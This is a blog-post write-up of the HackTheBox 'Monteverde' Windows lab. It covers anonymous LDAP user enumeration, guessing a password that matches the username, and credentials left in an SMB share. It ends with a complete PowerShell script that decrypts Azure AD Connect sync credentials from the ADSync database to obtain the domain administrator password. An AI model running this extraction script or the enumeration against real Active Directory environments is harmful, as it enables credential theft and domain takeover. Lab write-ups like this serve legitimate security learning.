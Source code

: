 ```yaml
---
layout: post
title: HTB Monteverde writeup
lang: en
categories: [Offensive, HTB]
tags: [windows, active-directory, Azure, AD-Connect, ldap]
permalink: /posts/2024-10-01-monteverde-htb-writeup
---
```



## Intro
Hello hackers! In this box we are going to extract user information from LDAP, figure out working with Azure AD connect and exploit it, in a *DCSync like* way to obtain the plaintext password of the administrator. I found this one pretty challenging, but I also learnt a lot about powershell and sql, as well as Azure <-> AD integration.

## Enumeration
![8989624cbb85ec844a58e045f7fa3cf9.png]({{ site.baseurl }}/images/8989624cbb85ec844a58e045f7fa3cf9.png)

#### LDAP 
We are able to bind to the ldap server anonymously: `godap -u '' -p '' monteverde.htb`

### Dumping usernames from LDAP
Let's dump some usernames to try to bruteforce their passwords 

```bash
ldapsearch -x -H ldap://monteverde.htb -b "dc=MEGABANK,dc=LOCAL" "(objectClass=user)" userPrincipalName > userprincipalname.dump
```

![72d9c0143df60c87cd6ce6a280ae9c26.png]({{ site.baseurl }}/images/72d9c0143df60c87cd6ce6a280ae9c26.png)

Let's get just the usernames we need using grep:
```bash
grep -o -oP 'userPrincipalName:\s*([a-zA-Z0-9-]+)@[a-zA-Z0-9]+\.[a-zA-Z0-9]+' userprincipalname.dump | cut -d '@' -f 1 | cut -d ':' -f 2
```
![2f354e0f72d5b7753e2352bb4f1ef49b.png]({{ site.baseurl }}/images/2f354e0f72d5b7753e2352bb4f1ef49b.png)

#### We are able to login as one of the users
![745e03f92cf6bfd674c037043065c59a.png]({{ site.baseurl }}/images/745e03f92cf6bfd674c037043065c59a.png)

As you can see, one of the users has it's password equal to his username. Which allowed us to login. 

`SABatchJobs:SABatchJobs`

*Honestly I think this is pretty stupid for a medium box, no modern password policy will allow for such a thing, and it's a long shot for someone to discover. I had to go to the forums to find someone hinting that you should try something very dumb.*

### SMB
![0f54a3e1f91aa2312411209caa72245d.png]({{ site.baseurl }}/images/0f54a3e1f91aa2312411209caa72245d.png)

We have access to a non standard share called `users$`, the only directory that has something in it is mhope. We can discover a file called azure.xml, which contains the password of this user.
![01873a69f5da4fe0ba67b54e323ae312.png]({{ site.baseurl }}/images/01873a69f5da4fe0ba67b54e323ae312.png)
`mhope:4n0therD4y@n0th3r$`

As you can see below, we are able to login using these credentials.
![385b8ef7ee69b7e302b7536dd1abcda7.png]({{ site.baseurl }}/images/385b8ef7ee69b7e302b7536dd1abcda7.png)

Our user is in the Azure admins, and if we go back to ldap, we can see that Azure AD Connect is enabled on the server which is a domain controller.
![fb78c26357743fadfbb44a48c23f3f80.png]({{ site.baseurl }}/images/fb78c26357743fadfbb44a48c23f3f80.png)

### Exploiting Azure AD Connect
I found [this post](https://blog.xpnsec.com/azuread-connect-for-redteam/) on google, regarding exploitation of Azure AD Connect.

It contains a script, but it does not work out of the box. Since it relies on a file db existing *(like sqlite but microsoft)*. However we have no local db, and azure ad connect on this machine seems to be using a MSSQL instance on port 1433.

*I struggled with this part a lot, since I tried to tunel the port 1433 to my machine and extract the db creds that way. However local windows auth did not work through the tunnel, which I did not know at the time and was stuck for a while.*

Apparently, there is a useful binary called `sqlcmd`, it allows us to make sql queries, and uses local windows auth, since it worked without us presenting any credentials. 
![47c7708d199f589969f18f9a581d16cd.png]({{ site.baseurl }}/images/47c7708d199f589969f18f9a581d16cd.png)

Though extracting the first piece of info needed for our script worked fine, the second part just did not want to print in a format that would be acceptable for the script.
![8b6480e1ce21d62ee9e4f9ebfa8cf2b6.png]({{ site.baseurl }}/images/8b6480e1ce21d62ee9e4f9ebfa8cf2b6.png)

So after trying a million ways of passing a sql connection string to powershell,  this is the final version of the script I came up with that used the MSSQL DB and actually worked!
```powershell

Write-Host "AD Connect Sync Credential Extract POC (@_xpn_)`n"

$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server=MONTEVERDE;Database=ADSync;Trusted_Connection=true"

$client.Open()
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$key_id = $reader.GetInt32(0)
$instance_id = $reader.GetGuid(1)
$entropy = $reader.GetGuid(2)
$reader.Close()


#$client.Open()
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM
mms_management_agent WHERE ma_type = 'AD'"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
$reader.Close()

add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)

$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerText}}

Write-Host ("Domain: " + $domain.Domain)
Write-Host ("Username: " + $username.Username)
Write-Host ("Password: " + $password.Password)

```

Thankfully, the script above worked, and we obtained the password for the administrator. Allowing us to log in via winrm.
![a2f6294666c0c02fc4d02f07f61969a7.png]({{ site.baseurl }}/images/a2f6294666c0c02fc4d02f07f61969a7.png)

`Administrator:d0m@in4dminyeah!`

Pwned!
